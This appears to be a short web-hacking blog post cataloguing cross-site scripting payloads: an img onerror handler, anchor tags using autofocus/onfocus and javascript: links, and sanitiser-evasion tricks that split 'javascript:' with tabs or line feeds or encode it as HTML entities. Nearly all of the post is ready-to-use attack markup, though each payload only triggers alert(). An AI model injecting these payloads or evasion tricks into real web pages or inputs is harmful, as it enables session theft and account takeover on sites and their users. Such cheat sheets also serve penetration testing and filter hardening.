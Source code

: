 ```yaml
---
title: XSS(Cross Site Scripting)
author: janger
date: 2023-09-25
category: Web Hacking
layout: post
---
```



## img tag onerror
~~~ html
<img src=x onerror="alert('XSS!')">
~~~

## a tag onfocus
~~~ html
<a autofocus name="example" onfocus="alert('XSS!')" href="javascript:alert('XSS!')">_</a>
<a name="example" onfocus="alert('XSS!')" href="javascript:alert('XSS!')">_</a> <!-- https://target.com/#example -->
~~~

## URI normalization

~~~ html
<!-- Insert TAB(&#9;) or LineFeed(&#10;) -->
<a href="j	avascript:a
lert(1);">Click Me!</a>

<!-- Insert HTML Entity(Encoded "javascript:alert(1);") -->
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;&#x3b;">Click Me!</a>
~~~
